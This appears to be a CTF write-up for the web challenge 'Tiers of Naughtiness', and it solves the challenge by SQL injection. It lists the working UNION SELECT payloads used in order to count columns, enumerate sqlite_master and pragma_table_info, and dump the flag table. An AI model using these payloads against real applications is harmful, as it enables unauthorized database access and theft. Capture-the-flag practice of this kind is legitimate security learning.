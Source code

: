 ```yaml
---
layout: default
title: "Sentinels CTF challenges"
---
```

## link
https://sentinelsofvigil.ctfd.io/team

## > Tiers of Naughtiness (Web, 150)

upon following the challenge instructions and entering 'playitprobro' into the url parameter, we are given the output

`NAUGHTY: playitprobro is in tier -> 3`

it can be confirmed that this challenge is sqli by entering a single `'` quote in the url parameter, yielding an SQL Error: unrecognized token: "'''"

with sqli, we start by identifying the number of columns that is reflected in output, with the payload `sql ?name=' UNION SELECT NULL--`, which yields another SQL Error: SELECTs to the left and right of UNION do not have the same number of result columns

we systematically increase the number of NULL's in the payload until the app stops throwing errors.

payload | result
?name=' UNION SELECT NULL, NULL, NULL-- | NAUGHTY: None is in tier -> None

the database has accepted our offering of three NULLs and we can proceed forth. now, we determine which columns are visible in the output with payload `?name=' UNION SELECT 'AAA','BBB','CCC'--+`, producing output

`NAUGHTY: BBB is in tier -> CCC`

i attempt to list the names of tables using the payload `?name=' UNION SELECT NULL,database(),version()--+` but this threw an SQL Error: no such function: database.

i then reattempt using a payload designed for sqlite `?name=' UNION SELECT NULL,name,type FROM sqlite_master WHERE type='table'--+`, which produces output 

`NAUGHTY: tier_one_secret_123081223_autonau is in tier -> table`

we found something tasty. use the payload `?name=' UNION SELECT NULL,name,type FROM pragma_table_info('tier_one_secret_123081223_autonau')--+` to read its columns

`NAUGHTY: hahah_hi_user is in tier -> TEXT`

now, directly dump the flag: `?name=' UNION SELECT NULL,hahah_hi_user,NULL FROM tier_one_secret_123081223_autonau--+`. this produces the output:

`NAUGHTY: SENTI{my_blind_sql_injection_chall_failed_so_heres_a_normal_one :( } is in tier -> None`

flag: `SENTI{my_blind_sql_injection_chall_failed_so_heres_a_normal_one :( }`

## > Fuzz (Web, 150)
https://sentinelsofvigil-fuzz.chals.io
